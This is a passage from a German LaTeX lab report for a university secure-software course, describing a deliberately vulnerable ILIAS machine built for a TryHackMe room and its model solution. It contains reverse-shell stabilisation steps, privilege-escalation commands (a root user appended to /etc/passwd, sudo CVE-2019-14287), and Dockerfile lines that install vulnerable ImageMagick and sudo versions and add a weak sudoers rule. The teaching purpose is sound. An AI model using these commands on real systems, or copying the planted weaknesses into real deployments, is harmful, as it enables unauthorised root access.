        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/VerbindungDa}
        \caption{Der Exploit wird als Profilbild gespeichert und ein Netcat Lister nimmt den Verbindungsversuch des Servers auf Port 444 entgegen.}
        \label{fig:exploitHochladen}
    \end{figure}
    \noindent
    Nach, dem die Verbindung erfolgreich etabliert ist, kommt schon das nächste Problem auf Tim zu.
    Die Bash Shell ist zu instabil um damit fortzufahren.
    Um die Shell zu stabilisieren, beschreibt ~\textcite{shellStabilisieren} folgendes Vorgehen:

    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{python -c 'import pty; pty.spawn("/bin/bash")'}  in der Konsole eingeben.
        \item[2.] \textit{Strg+z}  drücken, um die Shell als Hintergrundprozess zu betreiben und wieder zur lokalen Maschine zu gelangen.
        \item[3.] \textit{stty raw -echo;fg}  in der Konsole eingeben, um die Einstellung für die Kommandozeile festzulegen und die Shell nicht mehr als Hintergrundprozess zu betreiben.
        \item[4.] \textit{export TERM=xterm}  in der Konsole eingeben, um den Terminalemulator auf xterm zu setzen.
    \end{enumerate}

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/shellStabilisierenGanz}
        \caption{Vollständiges Terminal nach Ausführen der oben beschriebenen Schritte.}
        \label{fig:shellStabilisiert}
    \end{figure}
    \noindent
    Nachdem die Shell erfolgreich zu einem vollständigen Terminal ausgebaut werden konnte, kann die erste Flag eingesammelt werden.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/userflag}
        \caption{Einsammeln der erstern Flag \textit{userflag.txt} .}
        \label{fig:userflag}
    \end{figure}
    \noindent




    \subsubsection{Scan auf Schwachstellen}
    \label{subsubsec:scanSchwachstellen}
    Tim lässt sich zu ersteinmal mit \textit{ls} alle Dateien und Verzeichnisse im aktuellen Verzeichnis zeigen, dabei stößt er direkt auf eine Datei names SuperSecretFlag.txt.
    Beim Versuch die Datei zu öffnen zeigt sich jedoch, einzig und alleine der root Nutzer hat Zugriff auf die Datei.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/FileDenied}
        \caption{Zugriff auf die Datei SuperSecretFile.txt nicht möglich}
        \label{fig:fileDenied}
    \end{figure}
    \noindent
    Für Tim steht fest, er muss root Nutzer werden, denn so leicht gibt er nicht auf.
    Wie der \href{https://tryhackme.com/jr/t1mth3h4ck3rb0y}{\textbf{TryHackMe Raum}}~\parencite{privilegeEscalationRaumTryHackMe} zeigt, gibt es hierfür verschiedene Herangehensweisen.
    Tim entscheidet sich erst einmal einen Basic Scan durchzuführen.
    Dafür nutzt er ein selbstgeschriebenes Skript (\ref{lst:schwachstellentestSkript}), welches auf verschieden Schwachstellen testet.
    Darunter fallen unter anderem eine fehlerhafte Konfiguration sensibler Dateien, anfällige Versionen von Sudo oder OpenSSl.
    Hierfür gibt es ebenfalls Skripte auf GitHub oder verschiedene anerkannte Tools wie OpenVas, Nikto oder Lynis die diese Arbeit erleichtern.
    \\
    Wie Tim weiß, sind folgenden Schritte notwendig um das Skript auszuführen:
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{nano scan.sh}  in die Kommandozeile eingeben, um eine Datei namens scan.sh im Texteditor nano zu öffnen.
        \item[2.] Den Code des Skriptes im Editor einfügen und als scan.sh speichern.
        \item[3.] \textit{chmod +x scan.sh}  in die Kommandozeile eingeben, um die Rechte zu ändern und die Datei ausführbar zu machen.
        \item[4.] \textit{bash scan.sh}  anwenden, um die Datei und somit das Skript auszuführen.
        \item[5.] Alternativ können die Rechte der Datei /etc/passwd auch mit dem Befehl \textit{ls -la /etc/passwd} und die Sudo Version mit \textit{sudo - -version} abgefragt werde.
        Weitere Recherchen auf \href{https://www.exploit-db.com/exploits/47502}{exploit-db} oder auf \href{https://www.cvedetails.com/cve/CVE-2019-14287/}{CVE Details} zur Sudo Version 1.8.27 ergeben eine mögliche Schwachstelle.
    \end{enumerate}


    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/ScanSchwachstellen}
        \caption{Scan auf Schwachstellen nach oben beschriebenen Vorgehen.
        Mögliche Schwachstellen erkannt bei den Schreibrechten der /etc/passwd Datei und der Sudo Version 1.8.27.}
        \label{fig:scan}
    \end{figure}
    \noindent



    \subsubsection{Privilege Escalation unter Ausnutzung der /etc/passwd Datei}
    \label{subsubsec:privilegeEscalation1}
    Nachdem mögliche Schwachstellen bereits aufgedeckt wurden, gilt es diese nun auszunutzen.
    Tims Freund~\textcite{privilegeEscalationRaumTryHackMe} beschreibt in seinem \href{https://tryhackme.com/room/linprivesc}{\textbf{TryHackMe Raum}} anschaulich wie ein neuer Nutzer in die /etc/passwd Datei eingefügt werden kann.
    Kurz und prägnant zusammengefasst, ist dies durch folgende Schritte zu erreichen:

    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root:/bin/bash um einen root Nutzer zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserReadFlag}
        \caption{Neuen root Nutzer mittels Nano hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen.}
        \label{fig:privilegeEscalation1Screenshot1}
    \end{figure}
    \noindent

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserVersion2}
        \caption{Neuen root Nutzer mittels echo hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen. Da die bash Teils immer noch instabil ist, wird die Zeil falsch dargestellt. Eingegeben wurde der in Schritt 7. angegeben echo Befehl.}
        \label{fig:privilegeEscalation1Screenshot2}
    \end{figure}
    \noindent

    \subsubsection{Privilege Escalation unter Ausnutzung Sudo Version 1.8.27}
    \label{subsubsec:privilegeEscalation2}
    Die Fehlkonfiguration der /etc/passwd Datei konnte erfolgreich ausgenutzt werden, aber diese war nicht die einzige Schwachstelle, die während des Scans aufgedeckt wurde.
    Mit der Sudo Version 1.8.27 existiert eine weitere Schwachstelle im System.
    \href{https://www.exploit-db.com/exploits/47502}{Exploit-db} und \href{https://www.cvedetails.com/cve/CVE-2019-14287/?q=cve-2019-14287}{CVE Details} bieten auch hier nach kurzer Recherche ausrechnend Informationen.
    Da wie in~\ref{subsubsec:sudo} beschrieben, gewisse Konfigurationen in der sudoers Datei vorliegen müssen, ist nur durch Ausprobieren festzustellen, ob die Schwachstelle ausnutzbar ist.
    Zum einen, stellt \textcite{privilegeEscalationSudoExploit} einen Exploit bereit.
    Zum andern, lässt sich die Schwachstelle durch Eingabe des nachfolgenden Befehls auslösen: \textit{sudo -u\#-1 /bin/bash}.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{storyline_bilder_vm2/escalationSudo}
        \caption{Privilege Escalation unter Ausnutzung der Sudo 1.8.27 Schwachstelle}
        \label{fig:privilegeEscalation1SudoScreenshot1}
    \end{figure}

    \vspace{0.3cm}
    \noindent
    TimDerHackerboy hat es mal wieder bewiesen. Er trägt den Spitznamen Hackerboy nicht um sonst.
    Ob ihm Professor SuperSicher Andi auf die Schliche kommt, das bleibt abzuwarten.







%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	4.Lessons Learned
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \section{Lessons Learned}
    \label{sec:lessonsLearned}

    \subsection{TryHackMe Limitationen}
    \label{subsec:lessonslearnedTHM}
    Bei dem Hochladen der \ac{vm}s auf TryHackMe haben sich viele Problematiken ergeben.
    Am Anfang war die größte Problematik, dass die \ac{vm} größer als 20 Gigabyte war, wobei das Limit von TryHackMe auf 20 Gigabyte gesetzt ist.
    Es musste daher sorgfältig überlegt werden, welche Dateien entbehrlich waren und ob sie gelöscht werden konnten, ohne die zuverlässige Funktionalität von ILIAS oder unseren Schwachstellen zu beeinträchtigen.
    Nachdem das genannte Problem gelöst wurde, stellte sich heraus, dass es bei TryHackMe einen Bug gibt, der das Hochladen einer \ac{vm} verhindert.
    Daher konnte nicht getestet werden, ob die \ac{vm} erfolgreich auf TryHackMe ausgeführt werden kann.
    TryHackMe hat nach mehreren Wochen den Bug fixen können, sodass die \ac{vm} nun ausgeführt werden konnte.
    Dabei wurde jedoch klar, dass der zugewiesene Arbeitsspeicher nicht genügt, um die \ac{vm} zuverlässig auszuführen.
    Auch hier hat der TryHackMe-Support mehr Arbeitsspeicher zuweisen können, sodass die \ac{vm} nun zuverlässig läuft.
    Dennoch bleibt das Problem bestehen, dass die AttackBox über unzureichenden Arbeitsspeicher verfügt, wodurch das Bruteforcen mehrere Stunden in Anspruch nehmen kann.
    Diese Situation ist jedoch akzeptabel, da eine tatsächliche Bruteforce-Attacke ebenfalls mehrere Stunden dauern kann.

    \subsection{Virtuelle Maschine 1}
    \label{subsec:vm1lessonslearned}

    \subsubsection{Selbstständiges Erstellen eines Docker Images auf Basis von sturai}
    \label{subsubsec:lessonslearnedDocker}
    Es gibt viele verschiedene Befehle für Docker, die ähnliche aber nicht gleiche Funktionen haben.
    Die Befehle \glqq COPY\grqq\ und \glqq ADD\grqq\ fügen beide Dateien zum Image hinzu, wobei der Unterschied darin liegt, dass bei \glqq COPY\grqq\ die Datei innerhalb des Docker Containers liegen muss und bei \glqq ADD\grqq\ auch aus dem Betriebssystem, respektive der \ac{vm}, zum Container hinzugefügt werden kann.
    Dies war relevant, da sturai \glqq COPY\grqq\ nutzt, da die Dateien bei ihm schon im Container sind. Bei unseren \ac{vm} müssen die Dateien jedoch aus dem lokalen System hinzugefügt werden, weshalb es hier den \glqq\ ADD\grqq-Befehl braucht.

    \subsubsection{XSS Schwachstelle}
    \label{subsubsec:lessonslearnedXSS}
    Um die \ac{xss}-Schwachstelle korrekt einsetzen zu können, musste ein gewisses Verständnis für diese etabliert werden.
    Dabei war vor allem relevant zu verstehen, wie genau sensible Daten per \ac{xss} offengelegt werden können.
    So konnten dann die \ac{xss}-Payloads korrekt designt werden.

    \subsubsection{Einfügen eines gelben Banners auf der \glqq My Workplace\grqq-Seite in ILIAS}
    \label{subsubsec:lessonslearnedHTTP}
    Um einen gelben Banner auf der \glqq My Workplace\grqq-Seite in ILIAS zu erstellen, werden grundlegende Kenntnisse in HTML, JavaScript und CSS benötigt.
    Die Seitenstruktur in ILIAS besteht aus einzelnen HTML-Bausteinen, die mithilfe von PHP-Skripten in HTML-Template-Dateien integriert werden.
    Es wurde festgestellt, dass die Einbindung eigener Komponenten in diese Seiten problematisch sein kann, da es zu Kollisionen oder Überlagerungen mit vorhandenen Elementen kommen kann.
    Die Bearbeitung des Webseiteninhalts in der Datei \glqq tpl.main.html\grqq\ gestaltete sich als anspruchsvoll, insbesondere bei der Integration neuer Elemente.
    Es wurde festgestellt, dass manuelle Änderungen verloren gehen, sobald der Container neu gestartet wird.
    Aufgrund der Einschränkungen des \glqq RUN\grqq-Befehls, bei dem jede Anweisung eine eigene Shell-Sitzung hat, gestaltete sich das Wechseln des Arbeitsverzeichnisses als problematisch.
    Zur Bewältigung dieser Herausforderungen wurde eine automatisierte Methode entwickelt, um den neuen Code einzufügen.
    Dadurch konnte der Verlust von Änderungen bei einem Containerneustart vermieden werden.
    Es war erforderlich, die Dateistruktur im ILIAS-Container genau zu analysieren, um die richtige Vorgehensweise für die Einbindung eigener Komponenten zu ermitteln.

    \subsubsection{Verstecken der ILIAS Login-Seite}
    \label{subsubsec:lessonslearnedLogin}
    Beim Versuch, die Login-Seite zu verstecken, wurden verschiedene Ansätze wie die Verwendung von .htaccess (einer Datei zur Festlegung von \glqq Regeln\grqq\ wie z.B. das Verbieten von Sonderzeichen in der URL) und apache2.conf (der Konfigurationsdatei des Webservers) ausprobiert.
    Die Idee bestand darin, die \glqq/login.php\grqq\ -Seite auf eine neue URL umzuleiten, z.B. \glqq/newUrl\grqq, und die alte \glqq/login.php\grqq-Seite mit einem 410 GONE-Fehler zu sperren.
    Es stellte sich jedoch heraus, dass unabhängig von der verwendeten Umleitungsmethode (in verschiedenen Varianten von .htaccess, apache2.conf, HTML, PHP) und der verwendeten Sperrmethode (in verschiedenen Varianten von .htaccess und apache2.conf) entweder beide URLs erreichbar waren oder keine der URLs gesperrt wurde.
    Als zweite Idee wurde erwogen, die Dateien (von nur \glqq login.php\grqq\ bis zum gesamten Webserver) in ein tieferes Verzeichnis zu verschieben, sodass sie nicht gefunden werden konnten.
    Dies führte jedoch zu erheblichem Konfigurationsaufwand und Komplexität, ohne dass das gewünschte Ergebnis erzielt wurde, da die Dateien nicht mehr auffindbar waren.
    Schließlich wurde eine Lösung gefunden, indem die \glqq /login.php\grqq-Seite durch das Fehlen eines Query-Parameters gesperrt wurde.
    In der \glqq login.php\grqq-Datei wurde überprüft, ob \glqq init==true\grqq\ ist.
    Falls nicht, wurde die Login-Seite nicht angezeigt.
    Die Datei \glqq insidersecrets.php\grqq\ enthielt eine Umleitung auf \glqq /login.php?init=true\grqq, um die Login-Seite anzuzeigen.
    Dies erfolgte mithilfe von JavaScript, da sich die IP-Adresse ständig ändert und \glqq localhost\grqq\ nicht verwendet werden konnte.
    Somit war die Login-Seite nur über \glqq insidersecrets.php\grqq\ erreichbar (oder man kannte den genauen Parameter und setzte ihn manuell).

    %Freddy
    \subsubsection{Verbindungsaufbau zum Docker Container über SSH}
    \label{subsubsec:lessonslearnedDockerSSH}
    Den Docker Container über SSH erreichbar zu machen, benötigt mehrere verschiedene Schritte. Generell muss natürlich erst einmal \href{https://github.com/openssh}{openssh-server} über das base Dockerfile
    installiert werden. Ein Nutzer inklusive passwort kann über das dockerfile des ilias images angelegt werden. Ein größeres Problem stellt jedoch das Starten des ssh services auf dem Ilias Container dar.
    Manuell kann der Service ohne Probleme gestartet werden, jedoch geschieht das nicht per default beim Starten der Maschine, da Debian auf dem Container ein sehr leichtes init System ist. Um dieses Problem
    zu lösen wurde dann die Ubuntu VM ins Spiel gebracht, vorher lief die Anwendung über Docker auf Windows direkt. Die VM war zu diesem Zeitpunkt zwar schon für Ilias 5.2.4 mit \hyperref[subsubsec:CVE-2016-3714]{ImageTragick}-Schwachstelle
    vor konfiguriert, kam jedoch trotzdem mit jede Menge Problemen und Konfigurationsaufwand. Das Problem des nicht laufenden SSH services wurde dann über den sudo crontab der VM gelöst, welcher den SSH service startet.
    Der crontab kann den Container über den Befehl \textit{docker exec} auf den Container zugreifen, dabei muss man jedoch beachten, dass die flags \textit{-it} nicht gesetzt sind, da sonst eine Interaktive shell gestartet wird.
    Danach muss nur doch die Portweiterleitung eingerichtet werden, was nicht schwer ist, jedoch ein gewisses Verständnis benötigt. Dadurch kann jetzt extern über SSH auf den Ilias Docker Container zugegriffen werden.

    \subsection{Virtuelle Maschine 2}
    \label{subsec:vm2LessonsLearned}
    Ein Großteil der beschriebenen Lessons Learned, welche die \ac{vm}s oder Docker betreffen sind aufgrund des relativ gleichen Aufbaus der Maschinen auch auf die \ac{vm}2 anzuwenden.

    \subsubsection{ImageMagick Exploit und anschließendes stabilisieren einer Reverse Shell}
    \label{subsubsec:lessonslearnedShell}
    Ein Teil der Lessons Learned entstand nicht nur beim Erstellen der Docker Container und \ac{vm}s, sondern zudem auch beim Erarbeiten der Musterlösung.
    Angefangen beim richtigen Exploit für die ImageMagick Schwachstelle (\ref{subsubsec:CVE-2016-3714}).
    Einen fertigen ImageMagick Exploit mit einer Netcat Reverse Shell ist so nicht direkt zu finden.
    Stattdessen gilt es wie in~\ref{subsubsec:imageMagickFinden} ausführlich beschrieben, den bereits auf \href{https://www.exploit-db.com/exploits/39767}{\textbf{exlpoit-db}} vorhandenen Exploit um eine Netacat Reverse Shell zu erweitern.
    Mittels des fertigen Expoits lässt sich die ImageMagick Schwachstelle ausnutzen, doch die dadurch zustande kommende Reverse Shell ist zu instabil um weiterzuarbeiten.
    Eine große Herausforderung bestand daher darin, die Shell so zu stabilisieren, das es möglich war mit einem vollständig funktionstüchtigem Terminal weiterzuarbeiten.
    Denn zuvor war es nicht möglich den installierten Editor nano, die Pfeiltasten zu nutzen oder längere Befehle zu schreiben.
    Wie in Abschnitt ~\ref{subsubsec:verbindungHerstellen} beschrieben ist die Shell nach Anwenden des \textit{python -c 'import pty; pty.spawn("/bin/bash")'} Befehls dahingehen stabilisiert, dass man als www-data Nutzer die meisten grunsätzlichen Dinge nutzen kann.
    Verwendet man aber nicht den echo Befehl, um einen zusätzlichen Nutzer in die /etc/passwd Datei einzupflegen, muss man auf die Pfeiltasten und einen Texteditor zurückgreifen.
    Dies ist aber immer noch nicht möglich, dazu sind zusätzlich die nächsten drei beschrieben Schritte notwendig.
    Das Internet bietet einige Anleitungen eine einfache Reverse Shell zu einem komplett funktionstüchtigen Terminal auszubauen.
    Nach langem Suchen und vielen fehlgeschlagenen Versuchen, brachte der Lösungsansatz von~\textcite{shellStabilisieren} den erhofften erfolg.
    Durch Ausführen der von ihm angegeben Schritte, entsteht ein komplett funktionstüchtiges Terminal in dem auch nano und die Pfeiltasten genutzt werden können.


    \subsubsection{ImageMagick Pfad}
    \label{subsubsec:lessonslearnedPath}
    Zu begin wurde ImageMagick erfolgreich installiert, ILIAS konnte die Funktion \textit{convert} jedoch nicht finden und somit konnten keine Profilbilder hochgeladen werden.
    Nach Auswerten der Error-Logs konnte festgestellt werden, dass der Pfad in der docker-ilias-entrypoint Datei falsch hinterlegt war.
    Der Pfad musste demnach wie folgt korrigiert werden:
    \\
    \textit{
        convert = /usr/bin/convert
        -->
        convert = /usr/\textbf{local/}bin/convert
    }.


    \fill
    \newpage
    \subsubsection{Versionen ImageMagick und Sudo}
    \label{subsubsec:lessonslearnedVersionen}
    Große Probleme bereitete uns die Verfügbarkeit der anfälligen Versionen von ImageMagick und Sudo.
    Wie der offiziellen \href{https://security-tracker.debian.org/tracker/CVE-2021-3156}{debian} Webseite zu entnehmen ist, wurde auch in allen anfälligen Versionen unter 1.8.28 die Schwachstelle behoben.
    Die anfällige ImageMagick Version hingegen ist nicht in den Archiven der \href{https://imagemagick.org/archive/releases/}{offiziellen ImageMagick Webseite} gelistet.
    Das bedeutet, die Programme können nicht über \textit{apt-get updated \&\& apt-get install sudo/imagemagick} heruntergeladen werden.
    Daher galt es, alternative Quellen für die anfälligen Versionen zu finden.
    Für \href{https://launchpad.net/imagemagick/main/6.9.3-8/+download/ImageMagick-6.9.3-8.tar.gz}{ImageMagick}\footnote{Zum Download von ImageMagick Version 6.9.3-8 bitte klicken.} gibt es mit Launchpad eine alternative Quelle und für die anfällige \href{https://www.sudo.ws/dist/sudo-1.8.27.tar.gz}{sudo Version}\footnote{Zum Download von Sudo Version 1.8.27 bitte klicken.} mit der sudo.wz Webseite.
    Zum Downloaden und Einrichten von ImageMagick ist das base dockerfile um folgenden Code zu ergänzen, Hilfe bietet dabei die Anleitung von~\textcite{imageMagickEinrichten}:
    \vspace{0.1cm}
    \begin{lstlisting}[label={lst:imageMagickDownload}]
        RUN wget https://launchpad.net/imagemagick/main/6.9.3-8/+download/
        ImageMagick-6.9.3-8.tar.gz
        RUN tar -xf ImageMagick-6.9.3-8.tar.gz
        RUN cd ImageMagick-6.9.3-8 && ln -sf /bin/bash /bin/sh && ls -l /bin/sh && ls -l && ls -l configure && /bin/sh configure && make && make install && ldconfig /usr/local/lib
    \end{lstlisting}
    \vspace{0.5cm}
    Zum Downloaden und Einrichten von Sudo ist das base dockerfile um folgenden Code zu ergänzen, Hilfe bietet dabei die Anleitung von~\textcite{sudoEinrichten}:
    \vspace{0.1cm}
    \begin{lstlisting}[label={lst:sudoDownload}]
        RUN curl -O https://www.sudo.ws/dist/sudo-1.8.27.tar.gz

        RUN tar -xf sudo-1.8.27.tar.gz && cd sudo-1.8.27 && ./configure --prefix=/usr              \
            --libexecdir=/usr/lib      \
            --with-secure-path         \
            --with-all-insults         \
            --with-env-editor          \
            --docdir=/usr/share/doc/sudo-1.8.27 \
            --with-passprompt="[sudo] password for %p: " && make && make install && ln -sfv libsudo_util.so.0.0.0 /usr/lib/sudo/libsudo_util.so.0

        #Zur Konfiguration der Sudo Schwachstelle Eintrag im Sudoers File
        RUN echo "www-data ALL=(ALL,!root) NOPASSWD:ALL" >> /etc/sudoers
    \end{lstlisting}
    \vspace{0.5}









%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	7.Danksagung
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \hline
    \vspace{1cm}
    \noindent
    \textbf{Danksagung}
    \\
    \\
    Wir bedanken uns bei \textit{Prof. Dr.-Ing. Andreas Mayer} für die Betreuung im Rahmen des Kurses Praktikum sichere Software-Entwicklung an der Hochschule Heilbronn.
    \vspace{1cm}
    \hline
    \vspace{2cm}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	7.Bibliographie
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \section{Literaturverzeichnis}
    \label{sec:bibliographie}
    \printbibliography[title=""]

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	8.Abkürzungsverzeichnis
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage

    \section{Abkürzungsverzeichnis}
    \label{sec:abkuerzungsverzeichnis}
    \begin{acronym}
        \acro{xss}[XSS]{Cross-Site Scripting}
        \acro{ilias}[ILIAS]{Integriertes Lern-, Informations- und Arbeitskooperations-System}
        \acro{owasp}[OWASP]{Open Web Application Security Project}
        \acro{vm}[VM]{Virtuellen Maschinen}
    \end{acronym}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	9.Anhang
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \section{Anhang}
    \label{sec:Anhang}

    \begin{lstlisting}[label={lst:schwachstellentestSkript}]
        #!/bin/bash

        #Sensitive files to test
        sensitive_files=("/etc/shadow" "/etc/sudoers" "/etc/group" "/etc/passwd")

        #Test sensitive files for world-writable permissions
        for file in "${sensitive_files[@]}"; do
            if [[ -w "$file" ]]; then
                echo "$file is world-writable. This is a potential vulnerability."
            else
                echo "$file is not world-writable."
            fi
        done

        #Check sudo version for known vulnerabilities
        sudo_version=$(sudo -V | grep "Sudo version" | awk '{print $3}')

        #List known vulnerable sudo versions
